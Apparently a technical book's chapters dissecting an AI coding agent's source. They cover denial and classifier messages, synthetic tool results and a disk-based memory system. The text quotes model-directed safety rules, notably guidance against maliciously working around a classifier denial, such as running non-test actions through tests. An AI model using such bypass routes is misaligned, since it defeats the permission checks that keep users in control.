This is a direct implementation of HER Pattern 5 (Progressive Context Compaction): the harness proactively steers the model toward saving feedback at the moment of rejection, when the user's next message is most likely to contain a correctable preference. The correction hint is itself a form of context management -- it creates a just-in-time behavioral nudge that helps the compaction system preserve the most valuable information. The GrowthBook gate (`tengu_amber_prism`) allows the feature to be rolled back if it causes undesirable behavior.

### Classifier unavailability handling

When the classifier is temporarily unavailable (model timeout, rate limit), cc constructs a message that encourages the model to wait and retry:

```typescript
// src/utils/messages.ts:L288-L298
export function buildClassifierUnavailableMessage(
  toolName: string,
  classifierModel: string,
): string {
  return (
    `${classifierModel} is temporarily unavailable, so auto mode cannot determine the safety of ${toolName} right now. ` +
    `Wait briefly and then try this action again. ` +
    `If it keeps failing, continue with other tasks that don't require this action and come back to it later. ` +
    `Note: reading files, searching code, and other read-only operations do not require the classifier and can still be used.`
  )
}
```

This message is carefully crafted to prevent the model from treating classifier unavailability as a permanent denial. It explicitly mentions that read-only operations are still available, preventing the model from stalling entirely.

### Permission-denial message construction

When a tool use is denied by the user or the classifier, the harness must construct a message that both satisfies the API's structural requirements (the model must see a response to its tool_use) and steers the model's subsequent behavior. The denial message types differ by denial source:

- **User denial** (`REJECT_MESSAGE`): The model is told to stop what it is doing and wait for instructions. This is a hard constraint: the model should not attempt an alternative approach unless the user explicitly directs it.

- **Classifier denial** (`buildYoloRejectionMessage`): The model is told that a specific action was denied for a reason, but is allowed to continue with other tasks that do not depend on the denied action. This is a softer constraint: the model can make progress on other fronts while the denied action waits.

- **Classifier unavailability** (`buildClassifierUnavailableMessage`): The model is told that the classifier is temporarily down and is encouraged to retry later. Read-only operations are explicitly called out as still available, preventing the model from stalling entirely.

Each denial type carries different behavioral implications. User denials are absolute; classifier denials are conditional; unavailability denials are temporary. The message content reflects these differences through careful wording choices that the model interprets as constraints of varying strictness.

## Edge cases and failure modes

### Orphaned tool results

When a compaction boundary falls between a `tool_use` and its `tool_result`, the normalization layer inserts a synthetic placeholder:

```typescript
// src/utils/messages.ts:L246-L247
export const SYNTHETIC_TOOL_RESULT_PLACEHOLDER =
  '[Tool result missing due to internal error]'
```

This placeholder satisfies the API's structural requirement that every `tool_use` must have a paired `tool_result`, while signaling to the model that the actual content is unavailable. The HFI (Human Feedback Integration) submission pipeline rejects any payload containing this placeholder, preventing fake tool results from polluting training data.

### Classifier denials and the workaround guidance

When the classifier denies a tool use, cc constructs a specific denial message that encourages the model to continue with other tasks:

```typescript
// src/utils/messages.ts:L267-L282
export function buildYoloRejectionMessage(reason: string): string {
  const prefix = AUTO_MODE_REJECTION_PREFIX
  const ruleHint = feature('BASH_CLASSIFIER')
    ? `To allow this type of action in the future, the user can add a permission rule like ` +
      `Bash(prompt: <description of allowed action>) to their settings. ` +
      `At the end of your session, recommend what permission rules to add so you don't get blocked again.`
    : `To allow this type of action in the future, the user can add a Bash permission rule to their settings.`
  return (
    `${prefix}${reason}. ` +
    `If you have other tasks that don't depend on this action, continue working on those. ` +
    `${DENIAL_WORKAROUND_GUIDANCE} ` +
    ruleHint
  )
}
```

The denial message includes a workaround guidance clause that instructs the model not to attempt malicious bypasses of the denial, directly addressing HER Failure Mode 6.13 (Prompt Injection) by constraining the model's response to the denial. The `DENIAL_WORKAROUND_GUIDANCE` constant provides specific instructions:

```typescript
// src/utils/messages.ts:L226-L232
export const DENIAL_WORKAROUND_GUIDANCE =
  `IMPORTANT: You *may* attempt to accomplish this action using other tools that might naturally be used to accomplish this goal, ` +
  `e.g. using head instead of cat. But you *should not* attempt to work around this denial in malicious ways, ` +
  `e.g. do not use your ability to run tests to execute non-test actions. ` +
  `You should only try to work around this restriction in reasonable ways that do not attempt to bypass the intent behind this denial. ` +
  `If you believe this capability is essential to complete the user's request, STOP and explain to the user ` +
  `what you were trying to do and why you need this permission. Let the user decide how to proceed.`
```

### Context rot and message staleness

HER Failure Mode 6.1 (Context Rot) describes the 30%+ performance degradation when key content falls in mid-window positions. cc's message system addresses this through two mechanisms: the `<history_snip>` trimming system (covered earlier in this chapter) and the progressive compaction pipeline (covered in Chapter 28). The message system contributes to this defense by tagging messages with `summarizeMetadata` that tracks which messages have been summarized and in what direction, and through the short message ID system that allows the snip mechanism to reference and trim specific messages without losing their identity.

### Empty message detection

The `isNotEmptyMessage` function filters out empty or content-free messages that would waste context tokens:

```typescript
// src/utils/messages.ts:L689-L720
export function isNotEmptyMessage(message: Message): boolean {
  if (
    message.type === 'progress' ||
    message.type === 'attachment' ||
    message.type === 'system'
  ) {
    return true
  }
  if (typeof message.message.content === 'string') {
    return message.message.content.trim().length > 0
  }
  if (message.message.content.length === 0) {
    return false
  }
  if (message.message.content.length > 1) {
    return true
  }
  if (message.message.content[0]!.type !== 'text') {
    return true
  }
  return (
    message.message.content[0]!.text.trim().length > 0 &&
    message.message.content[0]!.text !== NO_CONTENT_MESSAGE &&
    message.message.content[0]!.text !== INTERRUPT_MESSAGE_FOR_TOOL_USE
  )
}
```

This function is conservative: it keeps multi-block messages and non-text blocks without inspection, and only filters single-block text messages that are empty or contain known content-free strings. This prevents the normalization layer from accidentally discarding image blocks, tool_use blocks, or other non-text content.

### Assistant message text extraction

The `getAssistantMessageText` helper extracts the concatenated text content from an assistant message, filtering out tool-use blocks, thinking blocks, and other non-text content:

```typescript
// src/utils/messages.ts:L2843-L2857
export function getAssistantMessageText(message: Message): string | null {
  if (message.type !== 'assistant') {
    return null
  }
  if (Array.isArray(message.message.content)) {
    return (
      message.message.content
        .filter(block => block.type === 'text')
        .map(block => (block.type === 'text' ? block.text : ''))
        .join('\n')
        .trim() || null
    )
  }
  return null
}
```

This function is called in the compaction pipeline to extract the summary text from the model's response. It handles the case where the model produces a mix of text and tool-use blocks (which should not happen during compaction but is a safety net). The `getLastAssistantMessage` helper, used throughout the codebase, uses `findLast` rather than `filter + last` for performance on large message arrays.

## Where cc diverges from the published pattern

### Unified message type vs. separate event streams

Most published agent architectures separate "conversation messages" from "system events" into distinct streams. cc unifies them into a single `Message` discriminated union. This simplifies the persistence layer (one JSONL format for everything) but complicates the API normalization layer, which must filter out system-only messages before sending to the model. The tradeoff favors simplicity in the persistence and resume paths, which are the highest-risk components in a long-running agent, at the cost of additional complexity in the API serialization path, which is well-tested and runs on every turn.

### Memory correction hints embedded in messages

The `withMemoryCorrectionHint` pattern is unusual: it modifies the content of a rejection message to steer the model toward memory-saving behavior. This is a harness-level concern leaking into the message content, which violates the typical separation between "what happened" and "what the model should do about it." The tradeoff is pragmatic: embedding the hint in the message ensures it fires at exactly the right moment (after a denial), rather than relying on a separate system-prompt instruction that the model might not apply at the critical decision point. Eval testing confirmed that system-prompt-level instructions for memory-saving are significantly less effective than just-in-time hints.

### Short message IDs for snip referencing

The `deriveShortMessageId` function creates a 6-character base36 hash from a UUID, which is then injected into the message text itself. This is an unusual pattern: typically, message identification is handled at the API level via message IDs, not by embedding identifiers in the content. cc does this because the `<history_snip>` compaction system operates on the content level, and the API does not expose a way to reference specific messages by ID for trimming purposes. The 6-character length is a balance between uniqueness (base36^6 = 2.2 billion possible IDs) and token efficiency (6 characters = approximately 1.5 tokens).

## Developer takeaways for building a long-running agent

1. **Unify your message type but keep the discriminant clear.** cc's single `Message` union with a `type` discriminant simplifies persistence and rendering at the cost of a more complex normalization layer. If your harness has fewer message types, consider separate streams.

2. **Design for compaction from day one.** Every message should carry metadata that enables future compaction decisions: `isCompactSummary`, `summarizeMetadata`, `uuid` references for boundary markers. Retrofitting these after the fact is expensive.

3. **Embed behavioral hints at the decision point, not in the system prompt.** cc's `withMemoryCorrectionHint` works because it fires at the exact moment the model needs to consider saving feedback. System-prompt-level instructions are too far from the decision point to reliably influence behavior.

4. **Handle orphaned tool results gracefully.** In a long-running session, compaction boundaries will inevitably fall between `tool_use`/`tool_result` pairs. Your normalization layer must detect and repair these gaps before sending to the API.

5. **Track message provenance.** The `origin` field on `UserMessage` enables cc to distinguish between human-typed input, slash-command output, and hook-generated messages. This provenance is essential for debugging, analytics, and preventing feedback loops where the model responds to its own synthetic messages as if they were human input.

6. **Make synthetic messages detectable.** cc's `SYNTHETIC_MESSAGES` set and `isSyntheticMessage` function allow the harness to filter out synthetic messages for training data submission, analytics, and UI rendering. Without this, synthetic flow-control messages pollute every downstream consumer.

7. **Bound memory injection per-turn and per-session.** The `RELEVANT_MEMORIES_CONFIG` constants (4KB per file, 20KB per turn, 60KB per session) prevent memory injection from consuming the entire context window. Without these bounds, a session with many memory files would gradually lose working context to stale memories.

8. **Construct denial messages that constrain but do not paralyze.** The `DENIAL_WORKAROUND_GUIDANCE` pattern allows the model to attempt reasonable workarounds while preventing malicious bypasses. This balance is essential for auto-mode operation where the human is not available to approve every action.
# Memdir: Tiered Memory on Disk

## Overview

The memdir subsystem is cc's implementation of HER Pattern 3 (Tiered Memory): a disk-based, file-structured memory system that persists across sessions, supports semantic retrieval, and enforces a closed type taxonomy. The core implementation lives in `src/memdir/`, with six modules: `memdir.ts` (prompt construction and entrypoint management), `memoryTypes.ts` (type taxonomy and behavioral instructions), `paths.ts` (path resolution and security validation), `findRelevantMemories.ts` (relevance-based retrieval), `memoryScan.ts` (directory scanning primitives), and `memoryAge.ts` (staleness tracking).

The tiered-memory pattern splits persistent context into three layers. At the top sits MEMORY.md, a compact index always loaded into the system prompt, capped at 200 lines and 25 KB (`src/memdir/memdir.ts:L35-L38`). Below the index are individual topic files -- one Markdown document per memory, each with YAML frontmatter declaring its name, description, and type. At the bottom are full session transcripts stored as JSONL, accessible only via grep search as a last resort. This stratification mirrors HER's observation that a compact index always in context plus on-demand detail files yields better recall than loading everything at once.

The subsystem is also an instance of HER section 7.1 (Persistent Instruction File): the MEMORY.md entrypoint functions identically to CLAUDE.md in that it is deterministically injected into the system prompt every session, and the same ETH Zurich finding from HER section 7.1 applies -- verbose memory indexes hurt rather than help, so cc enforces hard size caps to keep the index concise. HER section 7.1 documents the finding that persistent instruction files (such as AGENTS.md and CLAUDE.md) can reduce agent task success rates when they are verbose or unfocused, and cc's MEMORY.md design directly applies this lesson through its 200-line / 25 KB caps and its "what NOT to save" exclusions. The ETH Zurich study (arXiv:2602.11988, "Evaluating AGENTS.md") found that context files tend to reduce task success rates compared to providing no repository context, while also increasing inference cost by over 20%. This finding challenges the common assumption that detailed context files improve agent performance, and cc's design responds to it directly through entrypoint caps and memory-type exclusions.

The interaction between these three tiers is not static. During a query, a side query (a secondary API call using Sonnet) evaluates which topic files are relevant to the current user request, loading up to five into context. This is the key insight of the tiered approach: the entrypoint is always present (constant cost), topic files are loaded on demand (marginal cost only when needed), and full transcripts are searched only as a last resort (high cost, rare use).

```mermaid
%% Diagram (a): erDiagram of memdir storage
erDiagram
    MEMORY_MD ||--o{ TOPIC_FILE : indexes
    TOPIC_FILE {
        string filename
        string description
        string type
        number mtimeMs
    }
    MEMORY_MD {
        int maxLines 200
        int maxBytes 25000
        string content "one-line pointers to topic files"
    }
    SESSION_JSONL {
        string format "JSONL"
        string access "grep only, last resort"
    }
    TOPIC_FILE ||--o| SESSION_JSONL : "searchable via"

    AUTO_MEMORY {
        string basePath "~/.claude/projects/sanitized-git-root/memory/"
    }
    TEAM_MEMORY {
        string basePath "auto-memory/team/"
    }
    AUTO_MEMORY ||--o| TEAM_MEMORY : "may contain"
```

## Data structures and contracts

### MemoryType taxonomy

Memdir constrains memories to a closed four-type taxonomy: `user`, `feedback`, `project`, and `reference`. Content that is derivable from the current project state (code patterns, architecture, git history, file structure) is explicitly excluded from memory -- those sources already exist in the repository and CLAUDE.md. The type definitions are intentionally duplicated as flat constants rather than generated from a shared spec, keeping per-mode edits trivial without reasoning through conditional rendering:

```typescript
// src/memdir/memoryTypes.ts:L14-L21
export const MEMORY_TYPES = [
  'user',
  'feedback',
  'project',
  'reference',
] as const

export type MemoryType = (typeof MEMORY_TYPES)[number]
```

Each type has a defined purpose with detailed behavioral instructions stored in `TYPES_SECTION_COMBINED` and `TYPES_SECTION_INDIVIDUAL` constants at `src/memdir/memoryTypes.ts:L37-L178`. The combined variant (used when both private and team directories are active) includes `<scope>` tags and team/private qualifiers in examples; the individual variant strips these for single-directory mode.

`user` memories capture information about the user's role, goals, responsibilities, and knowledge. They are always private in scope. The behavioral instruction explicitly warns against writing memories that could be viewed as a negative judgment or that are not relevant to the work at hand.

`feedback` memories record guidance the user has given about how to approach work -- both corrections ("stop doing X") and confirmed approaches ("yes, keep doing that"). The type definition emphasizes recording from both failure and success: if only corrections are saved, the model avoids past mistakes but drifts away from validated approaches and may grow overly cautious. The default scope is private, with team scope reserved for project-wide conventions like testing policies or build invariants.

`project` memories store non-derivable project context: who is doing what, why, and by when. The type definition requires converting relative dates to absolute dates when saving (for example, "Thursday" becomes "2026-03-05") so the memory remains interpretable after time passes. The body structure mandates a rule/fact lead, then a "Why:" line and a "How to apply:" line, because project memories decay fast and the reasoning helps future sessions judge whether the memory is still load-bearing.

`reference` memories point to external systems like dashboards or issue trackers. They are usually team-scoped. The type definition explicitly scopes these to pointers to information in external systems, not the information itself.

The `parseMemoryType` function at `src/memdir/memoryTypes.ts:L28-L31` gracefully handles invalid or missing type fields, returning `undefined` for legacy files without a `type:` field:

```typescript
// src/memdir/memoryTypes.ts:L28-L31
export function parseMemoryType(raw: unknown): MemoryType | undefined {
  if (typeof raw !== 'string') return undefined
  return MEMORY_TYPES.find(t => t === raw)
}
```

### What NOT to save

The `WHAT_NOT_TO_SAVE_SECTION` at `src/memdir/memoryTypes.ts:L183-L195` is a critical design element that directly implements the HER section 7.1 finding. It excludes code patterns, conventions, architecture, file paths, project structure, git history, debugging solutions, anything in CLAUDE.md, and ephemeral task details. The section includes an explicit-save gate: these exclusions apply even when the user explicitly asks the model to save something. If the user asks to save a PR list or activity summary, the model is instructed to ask what was surprising or non-obvious about it -- that is the part worth keeping.

### MemoryHeader and scan results

The scan subsystem returns a `MemoryHeader` type for each discovered memory file:

```typescript
// src/memdir/memoryScan.ts:L13-L19
export type MemoryHeader = {
  filename: string
  filePath: string
  mtimeMs: number
  description: string | null
  type: MemoryType | undefined
}
```

This type bridges the scanning and retrieval layers: `scanMemoryFiles` produces `MemoryHeader[]` sorted newest-first, and `findRelevantMemories` consumes it to select the most relevant subset. The `description` field comes from the frontmatter `description:` key, and may be `null` for legacy files without this field. The `type` field may be `undefined` for files with unknown or missing type values, allowing graceful degradation.

### RelevantMemory and retrieval results

The retrieval layer returns a slimmer type that omits the description (already consumed by the selector):

```typescript
// src/memdir/findRelevantMemories.ts:L13-L16
export type RelevantMemory = {
  path: string
  mtimeMs: number
}
```

The `mtimeMs` field is threaded through the entire pipeline so callers can surface freshness information to the main model without a second stat call. This is a deliberate design: the scan already stats the file to obtain `mtimeMs`, and passing it forward avoids redundant I/O in the recall path. The `path` field is the absolute file path, used by the attachment system to load the memory file into the conversation. Callers like `messages.ts` use the `mtimeMs` to construct the `memoryHeader` prefix (discussed in the Memory freshness section below), which tells the main model when the memory was last modified and whether it might be stale.

### EntrypointTruncation

The entrypoint (MEMORY.md) has dual caps -- 200 lines and 25 KB -- enforced by `truncateEntrypointContent` at `src/memdir/memdir.ts:L57-L103`. The truncation result type is:

```typescript
// src/memdir/memdir.ts:L41-L47
export type EntrypointTruncation = {
  content: string
  lineCount: number
  byteCount: number
  wasLineTruncated: boolean
  wasByteTruncated: boolean
}
```

Line-truncation fires first (natural boundary), then byte-truncation cuts at the last newline before the cap to avoid mid-line splits. The warning message appended to truncated content names which cap fired and provides actionable guidance: "Keep index entries to one line under ~200 chars; move detail into topic files."

### Memory frontmatter format

Each memory file uses a standard frontmatter format with the `name`, `description`, and `type` fields, defined in `MEMORY_FRONTMATTER_EXAMPLE` at `src/memdir/memoryTypes.ts:L261-L271`:

```typescript
// src/memdir/memoryTypes.ts:L261-L271
export const MEMORY_FRONTMATTER_EXAMPLE: readonly string[] = [
  '```markdown',
  '---',
  'name: {{memory name}}',
  'description: {{one-line description — used to decide relevance in future conversations, so be specific}}',
  `type: {{${MEMORY_TYPES.join(', ')}}}`,
  '---',
  '',
  '{{memory content — for feedback/project types, structure as: rule/fact, then **Why:** and **How to apply:** lines}}',
  '```',
]
```

The `description` field is critical: it is the primary signal used by the relevance selector to decide whether to load a memory. The frontmatter template explicitly instructs the model to be specific in descriptions, because vague descriptions lead to poor relevance selection.

```mermaid
%% Diagram (c): classDiagram of memory types and frontmatter
classDiagram
    class MemoryType {
        <<enumeration>>
        user
        feedback
        project
        reference
    }
    class MemoryHeader {
        +string filename
        +string filePath
        +number mtimeMs
        +string|null description
        +MemoryType|undefined type
    }
    class RelevantMemory {
        +string path
        +number mtimeMs
    }
    class EntrypointTruncation {
        +string content
        +number lineCount
        +number byteCount
        +boolean wasLineTruncated
        +boolean wasByteTruncated
    }
    class MemoryFrontmatter {
        +string name
        +string description
        +MemoryType type
    }
    MemoryHeader --> MemoryType : type field
    RelevantMemory --> MemoryHeader : "subset (path+mtimeMs)"
    EntrypointTruncation ..> MemoryHeader : "truncates MEMORY.md for headers"
    MemoryFrontmatter --> MemoryType : type field
```

## Control flow

### Auto-memory enablement

The `isAutoMemoryEnabled` function at `src/memdir/paths.ts:L30-L55` evaluates a priority chain. The first defined value wins:

1. The `CLAUDE_CODE_DISABLE_AUTO_MEMORY` environment variable (1/true means OFF, 0/false means ON).
2. `CLAUDE_CODE_SIMPLE` mode (the `--bare` flag) -- if this is set, memory is disabled because prompts.ts already drops the memory section from the system prompt via its SIMPLE early-return, and this gate stops the other half (extractMemories turn-end fork, autoDream, /remember, /dream, team sync).
3. CCR without persistent storage -- remote agents without `CLAUDE_CODE_REMOTE_MEMORY_DIR` have nowhere to persist.
4. `autoMemoryEnabled` in `settings.json`, which supports project-level opt-out.
5. The default of enabled.

This cascade pattern mirrors the settings cascade described in Chapter 31, where later sources override earlier ones. The `--bare` flag path is worth noting: even though `prompts.ts` already drops the memory section from the system prompt in SIMPLE mode via its early-return, the `isAutoMemoryEnabled` gate stops the other half of memory functionality that operates outside the prompt path -- the extractMemories turn-end fork, the autoDream background consolidation, the `/remember` and `/dream` slash commands, and the team sync mechanism. Without this gate, those subsystems would still attempt to operate even though no memory prompt was injected.

### Extraction mode

The `isExtractModeActive` function at `src/memdir/paths.ts:L69-L77` gates whether the extract-memories background agent will run during a session. It requires the `tengu_passage_quail` GrowthBook feature flag, and either an interactive session or the `tengu_slate_thimble` feature flag for non-interactive sessions. The main agent's prompt always has full save instructions regardless of this gate -- when the main agent writes memories, the background agent skips that range (via `hasMemoryWritesSince` in `extractMemories.ts`); when it does not, the background agent catches anything missed.

### Path resolution

The auto-memory directory path is resolved by `getAutoMemPath` at `src/memdir/paths.ts:L223-L235`, which is memoized via `lodash-es/memoize` to avoid repeated `getSettingsForSource` calls during re-renders. The memoization key is `getProjectRoot()`, so tests that change its mock mid-block recompute correctly. In production, environment variables, settings.json, and CLAUDE_CONFIG_DIR are session-stable and covered by per-test cache clearing.

The resolution order is:

1. `CLAUDE_COWORK_MEMORY_PATH_OVERRIDE` environment variable (full-path override for Cowork).
2. `autoMemoryDirectory` in `settings.json` from trusted sources only: policySettings, flagSettings, localSettings, userSettings -- but not projectSettings.
3. The computed path `<memoryBase>/projects/<sanitized-git-root>/memory/`.

The computed path in option 3 uses `getAutoMemBase` at `src/memdir/paths.ts:L203-L205`, which returns the canonical git repo root if available (so all worktrees of the same repo share one auto-memory directory), otherwise falling back to the stable project root. The canonical root is resolved via `findCanonicalGitRoot` from `src/utils/git.js`, which traverses up from the project root to find the actual `.git` directory -- this is important for worktree scenarios where multiple working directories share the same repository. Without this deduplication, each worktree would create its own memory directory, fragmenting the memory pool. The base directory itself is resolved by `getMemoryBaseDir` at `src/memdir/paths.ts:L85-L90`, which checks `CLAUDE_CODE_REMOTE_MEMORY_DIR` first (explicit override for CCR), then falls back to `~/.claude` via `getClaudeConfigHomeDir`.

### Path validation and security

Path validation in `validateMemoryPath` at `src/memdir/paths.ts:L109-L150` rejects paths that would be dangerous as a read-allowlist root. The function checks for five categories of dangerous paths: relative paths (would be interpreted relative to CWD), root or near-root paths (length < 3), Windows drive roots (C: regex), UNC paths (network paths representing an opaque trust boundary), and null bytes (which survive normalize() and can truncate in syscalls). The function normalizes the candidate path, strips trailing separators, and returns the result with exactly one trailing separator to match the trailing-sep contract of `getAutoMemPath`.

Settings.json paths support `~/` expansion for user convenience, while the environment variable override does not (it is set programmatically by Cowork/SDK, which should always pass absolute paths). Bare `~`, `~/`, `~/.`, `~/..` are not expanded because they would make `isAutoMemPath` match all of `$HOME` or its parent.

The `isAutoMemPath` function at `src/memdir/paths.ts:L274-L278` normalizes the input path to prevent traversal bypasses via `..` segments, then checks whether it starts with `getAutoMemPath()`. When `CLAUDE_COWORK_MEMORY_PATH_OVERRIDE` is set, this matches against the override directory. A true return does not imply write permission in that case -- the `filesystem.ts` write carve-out is gated on `!hasAutoMemPathOverride()`.

The `hasAutoMemPathOverride` function at `src/memdir/paths.ts:L194-L196` serves as a signal that the SDK caller has explicitly opted into the auto-memory mechanics, for instance to decide whether to inject the memory prompt when a custom system prompt replaces the default.

### Memory scanning

When a query arrives, the retrieval pipeline begins with `scanMemoryFiles` at `src/memdir/memoryScan.ts:L35-L77`. This function reads the memory directory recursively, filters for `.md` files (excluding MEMORY.md), reads each file's first 30 lines of frontmatter (`FRONTMATTER_MAX_LINES` at `src/memdir/memoryScan.ts:L22`), and returns a list of `MemoryHeader` objects sorted newest-first, capped at `MAX_MEMORY_FILES` (200 at `src/memdir/memoryScan.ts:L21`).

The scan uses `Promise.allSettled` rather than `Promise.all`, so a single unreadable file does not abort the entire scan. The `readFileInRange` helper internally stats the file to obtain `mtimeMs`, avoiding a separate stat round. This is a deliberate optimization: for the common case of N <= 200 files, this halves syscalls compared to a separate stat-sort-read approach. For large N, a few extra small files are read but the double-stat on the surviving 200 is still avoided.

The `formatMemoryManifest` function at `src/memdir/memoryScan.ts:L84-L94` presents each memory as one line with an optional type tag, timestamp, and description: `- [type] filename (timestamp): description`. This manifest is consumed by both the recall selector prompt and the extraction-agent prompt.

```mermaid
%% Diagram (b): flowchart of memory retrieval per query
flowchart TD
    A[User query arrives] --> B[findRelevantMemories]
    B --> C[scanMemoryFiles]
    C --> D["readdir memory/ (recursive)"]
    D --> E["Filter .md files, exclude MEMORY.md"]
    E --> F["readFileInRange per file: first 30 lines"]
    F --> G["parseFrontmatter per file"]
    G --> H["Sort by mtimeMs newest-first, cap at 200"]
    H --> I{Any memories found?}
    I -->|No| J[Return empty array]
    I -->|Yes| K[Filter alreadySurfaced paths]
    K --> L[selectRelevantMemories via sideQuery]
    L --> M["Sonnet selects up to 5 relevant files"]
    M --> N["Filter by validFilenames set"]
    N --> O["Log MEMORY_SHAPE_TELEMETRY"]
    O --> P[Return RelevantMemory with path+mtimeMs]
```

### Relevance selection

The core of the retrieval pipeline is `findRelevantMemories` at `src/memdir/findRelevantMemories.ts:L39-L75`. After scanning, it filters out paths already surfaced in prior turns (the `alreadySurfaced` parameter), then calls `selectRelevantMemories` which dispatches a side query -- a secondary API call using Sonnet (a smaller, faster model) to evaluate relevance without consuming the main model's context budget.

The selector's system prompt at `src/memdir/findRelevantMemories.ts:L18-L24` instructs it to return up to 5 filenames for memories that will clearly be useful. The prompt includes three key instructions: be selective and discerning (if unsure, do not include), return an empty list if no memories would clearly be useful, and do not select memories that are usage reference or API documentation for recently-used tools (Claude Code is already exercising those tools -- but do select memories containing warnings, gotchas, or known issues about those tools, since active use is exactly when those matter).

The side query uses structured output with a JSON schema requiring `selected_memories: string[]`, ensuring the response is parseable without ambiguity. The result is filtered against a `validFilenames` set at `src/memdir/findRelevantMemories.ts:L130` to discard any filenames the model hallucinated that do not correspond to actual files.

If the `MEMORY_SHAPE_TELEMETRY` feature gate is enabled, the function logs recall shape telemetry even on empty selection: the selection rate needs the denominator, and -1 ages distinguish "ran, picked nothing" from "never ran".

The `alreadySurfaced` parameter is a `ReadonlySet<string>` that filters out paths shown in prior turns before the Sonnet call, so the selector spends its 5-slot budget on fresh candidates instead of re-picking files the caller will discard. This parameter is particularly important in multi-turn conversations where the same query topic arises repeatedly -- without it, the selector would return the same five files every turn, wasting context budget on already-loaded information. This deduplication is also essential for cost control: each side query costs Sonnet tokens, and returning already-surfaced files wastes that budget without adding new information to the conversation.

### Prompt construction

`loadMemoryPrompt` at `src/memdir/memdir.ts:L419-L507` is the top-level entry point for building the memory section of the system prompt. It dispatches based on which memory systems are enabled:

1. If KAIROS mode is active (long-lived assistant sessions, gated by `feature('KAIROS')` and `getKairosActive()`), it returns the daily-log prompt from `buildAssistantDailyLogPrompt` at `src/memdir/memdir.ts:L327-L370`. This prompt instructs the model to append timestamped bullets to a date-named log file rather than maintaining MEMORY.md directly.
2. If team memory is enabled (TEAMMEM feature gate and `isTeamMemoryEnabled()`), it returns a combined prompt covering both private and team directories via `teamMemPrompts.buildCombinedMemoryPrompt`.
3. If only auto memory is enabled, it returns the individual memory prompt from `buildMemoryLines` at `src/memdir/memdir.ts:L199-L266`.
4. If auto memory is disabled, it logs a `tengu_memdir_disabled` telemetry event and returns null. It also logs a `tengu_team_memdir_disabled` event if the user was in the team-memory GrowthBook cohort, to distinguish "team memory unavailable because auto memory is off" from "team memory unavailable because the user is not in the cohort."

Before dispatching to the prompt builders, `loadMemoryPrompt` ensures the memory directory exists via `ensureMemoryDirExists` and logs directory file/subdir counts via `logMemoryDirCounts` at `src/memdir/memdir.ts:L153-L185`. The counting is fire-and-forget (void promise, no await), so it never blocks prompt building. The `tengu_memdir_loaded` telemetry event includes content_length, line_count, was_truncated, was_byte_truncated, and memory_type, providing observability into the health and size of memory directories across the fleet.

`buildMemoryLines` assembles the full behavioral instruction set in a specific order: the directory location with the "already exists" guidance (`DIR_EXISTS_GUIDANCE` at `src/memdir/memdir.ts:L117-L119`), the four-type taxonomy with examples (`TYPES_SECTION_INDIVIDUAL`), the "what NOT to save" exclusions (`WHAT_NOT_TO_SAVE_SECTION`), the two-step save process (write file then update MEMORY.md) or the skip-index variant, the when-to-access guidance (`WHEN_TO_ACCESS_SECTION` at `src/memdir/memoryTypes.ts:L216-L222`), the "before recommending from memory" verification section (`TRUSTING_RECALL_SECTION` at `src/memdir/memoryTypes.ts:L240-L256`), the memory-and-other-persistence section distinguishing memory from plans and tasks, and finally the searching-past-context section if the `tengu_coral_fern` feature gate is enabled.

The "before recommending from memory" section at `src/memdir/memoryTypes.ts:L240-L256` is a critical safety mechanism. It instructs the model that a memory naming a specific function, file, or flag is a claim that it existed when the memory was written -- it may have been renamed, removed, or never merged. The section provides three concrete verification steps: if the memory names a file path, check the file exists; if it names a function or flag, grep for it; if the user is about to act on the recommendation, verify first. The section header wording was validated by eval: "Before recommending from memory" (an action cue) tested better than "Trusting what you recall" (abstract), going 3/3 vs 0/3 with the same body text.

### Memory freshness

The age tracking module at `src/memdir/memoryAge.ts` provides four functions. `memoryAgeDays` at `src/memdir/memoryAge.ts:L6-L8` computes floor-rounded days since mtime, clamping negative values (future mtime from clock skew) to 0:

```typescript
// src/memdir/memoryAge.ts:L6-L8
export function memoryAgeDays(mtimeMs: number): number {
  return Math.max(0, Math.floor((Date.now() - mtimeMs) / 86_400_000))
}
```

`memoryAge` at `src/memdir/memoryAge.ts:L15-L20` produces a human-readable age string ("today", "yesterday", "N days ago"). The design rationale is that models are poor at date arithmetic -- a raw ISO timestamp does not trigger staleness reasoning the way "47 days ago" does.

`memoryFreshnessText` at `src/memdir/memoryAge.ts:L33-L42` generates a staleness caveat for memories older than one day, reminding the model to verify claims before asserting them as fact. Fresh memories (today or yesterday) produce an empty string to avoid noise. This function was motivated by user reports of stale code-state memories being asserted as fact -- the file:line citation makes the stale claim sound more authoritative, not less.

`memoryFreshnessNote` at `src/memdir/memoryAge.ts:L49-L53` wraps the freshness text in `<system-reminder>` tags for callers that do not add their own system-reminder wrapper (such as FileReadTool output).

The `memoryHeader` function at `src/utils/attachments.ts:L2327-L2332` constructs the header string for a recalled memory block. It is a function (not a constant) that takes a `path` and `mtimeMs`, then conditionally includes the staleness text if the memory is old, or a "saved X days ago" label if it is fresh:

```typescript
// src/utils/attachments.ts:L2327-L2332
export function memoryHeader(path: string, mtimeMs: number): string {
  const staleness = memoryFreshnessText(mtimeMs)
  return staleness
    ? `${staleness}\n\nMemory: ${path}:`
    : `Memory (saved ${memoryAge(mtimeMs)}): ${path}:`
}
```

This function serves the recall side of the tiered-memory system: when a relevant memory file is loaded into the conversation as an attachment, `memoryHeader` prefixes it with a freshness label so the main model can weigh the memory's currency appropriately. For stale memories, the staleness text is prepended with a blank line separator before the "Memory:" label, making the warning visually prominent in the model's input.

## Edge cases and failure modes

### Entrypoint overflow

If MEMORY.md grows beyond 200 lines or 25 KB, `truncateEntrypointContent` at `src/memdir/memdir.ts:L57-L103` cuts it and appends a warning naming which cap fired. The function first trims the raw input, splits into lines, and checks both the line count and byte count against their respective caps. The original byte count is used for the warning (not the post-line-truncation size), because long lines are the failure mode the byte cap targets, and post-line-truncation size would understate the warning. The truncation warning message is specific: it names the exact size and limit, and provides actionable guidance to move detail into topic files. This prevents runaway indexes from consuming excessive context budget, but the warning is critical: it tells the model that some index entries were not loaded, so it should not assume its MEMORY.md view is complete.

### Path traversal defense

